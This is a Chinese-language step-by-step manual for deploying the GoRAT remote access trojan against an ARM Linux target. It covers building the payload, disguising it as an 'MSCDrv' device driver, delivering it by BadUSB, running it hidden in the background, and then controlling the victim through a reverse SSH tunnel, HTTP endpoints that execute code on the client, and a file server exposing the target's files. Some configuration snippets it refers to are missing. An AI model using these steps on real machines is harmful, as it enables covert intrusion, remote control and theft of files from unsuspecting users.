

# GoRAT使用手册

> [GoRAT](https://github.com/JustinTimperio/GoRAT)主要是由Go和Shell语言编写而成，支持生成arm架构下的Payload
>
> > GoRAT uses chisel and gliderlabs ssh server to create a high performance remote reverse tunnel over HTTPS. The diagram below shows how GoRAT establishes a link between multiple “targets” and a single “attacker”：
>
> > [!NOTE]
> >
> > **攻击者主机**：简记为`A`
> >
> > `ip`：`192.168.59.207`
> >
> > `port`：`8888`
> >
> > **目标靶机**：简记为`V`
> >
> > `架构`：`Phytium-aarch64`(`linux-ARMv8`)

## `A`：GoRAT安装与环境配置

为了不影响本地环境，使用Docker环境进行安装配置。

### 设置Go代理

由于国内安装go语言的mod包时会出现被墙的问题，因此我们在执行：

```shell
git clone git@github.com:JustinTimperio/GoRAT.git
```

将仓库下载下来后，对`./Dockerfile`文件作如下修改：

加入上述Go代理，使得在`Docker`内执行`go mod download -x`时可以正常下载mod包。

### 配置`./config.sh`

在`./config.sh`下配置攻击者主机`A`的`ip`以及`port`以生成可在目标靶机上使用的`payload`：

### 进行构建

在仓库目录下运行：

```shell
./build_payload.sh --docker
```

生成的`payload`位于`./BUILD/payloads`目录下

根据目标靶机`V`的架构，选择`goRAT_v12_linux_arm64_ARM7`作为`payload`


### 配置运行监听程序

监听程序位置即：`./scripts/start_server.sh`

- 配置`A`的端口号为`8888`：

- 运行该程序：

  运行后开始监听。


## `V`：获得`payload`并执行

### 预处理

将生成的二进制文件(`payload`)重命名为`MSCDrv`，掩人耳目为`MSC`设备驱动

### 上载至靶机`V`

即通过`BadUSB`的方式将`payload`传输至目标靶机`V`上

- 将`payload`隐藏至大容量存储设备中
- 将`payload`上载至可访问平台中，通过`BadUSB`从平台上下载

### 在`V`中执行

- 赋予该`payload`执行权限：

  ```shell
  chmod 777 ./MSCDrv
  ```

- 执行下面的命令：

  ```shell
  ./MSCDrv > /dev/null 2>&1 &
  exit
  ```
  
  - 屏蔽输出处理
  
    - `> /dev/null` 将标准输出重定向到空设备，即丢弃输出
  
    - `2>&1` 将标准错误输出重定向到标准输出
  
    这样将所有输出都重定向到空设备 `/dev/null`，这样程序的输出就不会显示在终端上。
  
  - 后台运行处理
  
    - 使用 `&` 符号将程序放在后台运行
  
  - 执行完命令后关闭终端
  
    - 使用`exit`命令即可

运行后，在`A`上显示控制程序和端口程序的运行端口：

- 显示控制端口在`41460`运行
- 显示`ssh`在端口`41461`运行


## `A`：执行攻击

### SSH服务器：

该端口上运行的程序用来建立SSH连接。

执行下述命令之一：

- default：

  ```shell
  ssh -v localhost -p 41461
  ```

- for phytium_pi：

  ```shell
  ssh -o HostKeyAlgorithms=ssh-rsa localhost -p 41461
  ```

即可与目标靶机`V`建立`ssh`连接：

### 控制服务器：

控制服务器利用简单的`http`机制，用于将`/some`页面转换为内部`go`命令。以这种方式，请求网页直接导致在客户端系统上执行代码。虽然这种机制不是很复杂，但它是非常可靠和高性能的。当前`api`具有以下命令：

- 检测靶机连接状态：

  ```shell
  http://localhost:[port]/
  ```

  如果主机联机并响应请求，则返回状态代码`OK`

- 报告设备的硬件信息：

  ```shell
  http://localhost:[port]/hardware
  ```

  在json中报告设备的基本硬件调查

- 关闭靶机`payload`程序：

  ```shell
  http://localhost:[port]/stop
  ```

  关闭客户端`payload`而不自毁

- 自毁靶机`payload`程序：

  ```shell
  http://localhost:[port]/uninstall
  ```
  
  终止客户端`payload`并自毁

### 文件服务器：

每个客户端的文件服务器服务由**控制服务器对应端口**提供。从技术角度来看，文件服务器是控制服务器的直接组成部分。

文件和目录可以访问：

```shell
http://localhost:[port]/fs/
```

通过浏览器或wget和curl等工具：


## Tips

### ps1：`A`如何关闭监听程序？

- 先获得对应端口上的程序的`PID`：

  ```shell
  sudo netstat -tulpn | grep :8888
  ```

  

- 杀死比尔：

  ```shell
  kill -SIGKILL 506656
  ```

